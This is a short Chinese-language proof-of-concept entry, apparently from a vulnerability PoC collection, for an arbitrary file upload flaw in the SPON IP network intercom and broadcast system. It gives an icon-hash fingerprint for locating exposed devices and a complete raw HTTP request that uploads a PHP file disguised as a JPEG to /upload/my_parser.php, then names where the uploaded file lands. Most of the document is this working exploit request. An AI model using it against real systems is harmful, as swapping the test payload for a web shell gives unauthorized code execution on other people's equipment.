 ﻿# SPON IP网络对讲广播系统 my_parser 文件上传

> 更新时间：2024-01-19

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：icon_hash="-1830859634"

> 验证脚本：HTTP

```
POST /upload/my_parser.php HTTP/1.1
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------402880817133959846752911683338
Connection: close

-----------------------------402880817133959846752911683338
Content-Disposition: form-data; name="upload"; filename="dudesuite.php"
Content-Type: image/jpg

<?php echo "dudesuite"; ?>
-----------------------------402880817133959846752911683338--
```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：/upload/files/dudesuite.php


> 验证文件来源：SPON IP网络对讲广播系统 my_parser 文件上传.poc
